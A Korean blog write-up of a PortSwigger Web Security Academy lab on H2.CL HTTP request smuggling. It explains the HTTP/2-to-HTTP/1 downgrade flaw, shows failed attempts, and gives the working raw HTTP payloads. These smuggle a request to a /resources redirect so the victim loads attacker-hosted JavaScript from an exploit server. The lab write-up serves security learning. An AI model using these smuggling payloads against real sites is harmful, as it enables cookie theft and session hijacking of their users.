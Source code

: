 ```yaml
---
layout: post
title: "Burp Academy-HTTP Request Smuggling 관련 취약점: H2.CL request smuggling"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, HTTP Request Smuggling]
toc: true
last_modified_at: 2024-01-31 21:00:00 +0900
---
```


# 개요
- HTTP Request Smuggling 취약점 문제이다. 여기서부터는 HTTP 프로토콜2를 사용하는 서버에 대한 스머글링을 사용한다.Advanced 토픽이다. 
- 문제 주소: https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling
- 취약점 설명페이지: https://portswigger.net/web-security/request-smuggling/advanced
- 난이도: PRACTITIONER (보통)

# 취약점 개요 (H2.CL)
- HTTP/2에서는 CL헤더가 존재하지 않는다. 서버측이 보내진 컨텐츠의 길이를 보고 정확한 값을 계산하는 프로토콜 사양이다.
- 따라서, HTTP/2에서는 스머글링이 가능하지 않다. 
- 한편, 프론트엔드/백엔드 서버로 이루어진 사이트에서, 프론트엔드 서버가 HTTP/2를 사용한다고 해도, 백엔드서버가 HTTP/1만 사용가능하기 때문에 백엔드 서버에 요청을 전달할 때는 HTTP/1로 다운그레이드하는 방식이 널리 퍼져있다. (대부분의 리버스 프록시가 이런 식으로 동작한다고 한다.)
- 다운그레이드하게 되면 CL이나 TE를 볼 수 밖에 없다. 
- 따라서 프론트엔드는 HTTP/2로 통신하지만 백엔드는 HTTP/1의 CL이나 TE헤더를 보는 경우의 수가 생긴다. (H2.CL이나 H2.TE타입이 나온다. )
- 이번 랩은 H2.CL 타입이다. 
- 프론트엔드는 CL을 안보지만 백엔드는 CL을 본다. 
- **CL 값을 0으로 줘서, 백엔드 입장에서 봤을 때 스머글링 하는 요청은 별도 요청으로 인식하도록 하는 테크닉을 사용할 수 있다.**

# 랩 개요
- 이 랩은 프론트 엔드 서버와 백엔드 서버로 구성되어 있다. 프론트 엔드 서버는 HTTP/2 요청을 백엔드에 전송할 때 HTTP1으로 다운그레이드한다. 
- 랩을 풀려면 백엔드 서버에게 HTTP요청을 밀반입해서, victim의 브라우저에서 exploit서버의 악의적인 Javascript파일을 로드해서 실행시키면 된다. (`alert(document.cookie)`를 수행하는 Javascript다.) 
- victim은 10초마다 웹 사이트를 방문한다. 

```
This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

To solve the lab, perform a request smuggling attack that causes the victim's browser to load and execute a malicious JavaScript file from the exploit server, calling alert(document.cookie). The victim user accesses the home page every 10 seconds.
```

# 풀이 시도
- exploit 서버가 주어져 있다. 
- 프론트엔드는 HTTP/2로 동작하고, 백엔드는 HTTP/1.1이고 CL헤더를 인식한다. (그래서 H2.CL 이다.)
- victim이 exploit서버의 자바스크립트 파일을 읽어들이도록 만들어야 한다. 

1. 다음과 같은 요청을 시도해봤지만 응답은 항상 같은 200응답이었다. 어딘가 놓치고 있는 부분이 있는 것 같다. 

```http
POST / HTTP/2
Host: 0a0a00f0043d8663829f34c800d30018.web-security-academy.net
Cookie: session=B3LiF7FBl5KdzUiUkyPVXDpoDAZdl9Tj
Content-Length: 124

GET /exploit HTTP/1.1
Host: https://exploit-0a6600ba046a86708218330f019000be.exploit-server.net 
Content-Length: 10

x=1
```

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 8771

<!DOCTYPE html>
```

2. 아하, Content-Length값은 작게해주어야 했다. (프론트엔드는 CL헤더를 보지 않지만 백엔드는 본다. 따라서 스머글링용 요청앞에 몇 바이트를 추가하고, 이 바이트수만큼 CL헤더에 값을 주면 백엔드가 인식해서 처리해줄 것이다.) 따라서 다음과 같이 바꿨더니 두번째 요청의 응답에서 404를 확인할 수 있었다. 스머글링 자체는 되고 있는 것 같다. 

![CL헤더 값 변경후](/images/burp-academy-hrs-13-1.png)

3. 그런데 왜 404응답인 걸까? 스머글링 하는 `GET /exploit` 은 exploit서버에서는 정상적으로 동작하는 요청이다. 

어쩌면 스머글링 요청의 Host헤더 값은 무시하는 걸수도 있다. 다음 테스트로 그 것을 확인했다. exploit서버에는 존재하지 않는 경로지만 랩서버에는 존재하는 경로로 요청을 보내면 응답이 있었다. 

![어느 곳을 보는지 확인](/images/burp-academy-hrs-13-2.png)

4. 그렇다면 Host를 포함해서 풀경로를 적어본다. 음.. 안된다. 

![풀경로 적었을 때](/images/burp-academy-hrs-13-3.png)

5. 랩 서버에서 오픈 리다이렉트가 되는지 확인해본다. 만약 있다면 exploit서버로 리다이렉트되는 요청을 밀반입시켜서 유저에게 전달할 수 있을 것이다. 

음... 모르겠다. `POST /post/comment` 요청이 다음과 같이 302응답을 회신해주긴한다. 그러나 Location값을 임의로 지정할 수가 없다. Origin이나 Referer등에 exploit서버의 URL을 지정해도 돌아오는 Location 값은 변함이 없었다. 

```
HTTP/2 302 Found
Location: /post/comment/confirmation?postId=8
X-Frame-Options: SAMEORIGIN
Content-Length: 0


```

# 답 보고 풀이 
6. 아하.. `/resources` 가 302응답을 해주는 엔드포인트였다. (이런 걸 스스로 찾아낼 수 있을까? )

![302응답 엔드포인트](/images/burp-academy-hrs-13-4.png)

7. exploit서버의 `/resources` 경로로 요청이 오면 `alert(document.cookie)`를 내려주도록 준비해둔다.

8. 다음 페이로드를 사용해서 302응답이 되도록 만든다. 두세번 요청하면 302응답을 확인할 수 있었다. 

```http
POST / HTTP/2
Host: 0a4900cc037a9dfe877e01e600ff002f.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7
Content-Length: 0

GET /resources HTTP/1.1
Host: exploit-0acc004303029dd5879f00d9014900bf.exploit-server.net
Content-Length: 5

x=1
```

![302응답 엔드포인트](/images/burp-academy-hrs-13-5.png)

9. victim이 10초마다 사이트를 방문하므로 타이밍이 맞아야 한다. 성공 메세지가 뜰 때까지 페이로드를 보내는 것을 반복한다. 5~6번 반복하니 성공했다. 

![풀이 성공](/images/burp-academy-hrs-13-success.png)


메모. 
# CL.0
- 프론트엔드는 CL헤더를 보지만 백엔드는 보지 않는 경우. (CL값이 0인것으로 인식하는 것과 같기 때문에 CL.0라고 부름)
- 양 서버가 서로 다른 해석을 하므로 이 경우도 HRS가 가능하다. 
- TE헤더를 추가하거나 할 필요가 없기 때문에 브라우저에서도 테스트가능하다. 
- 
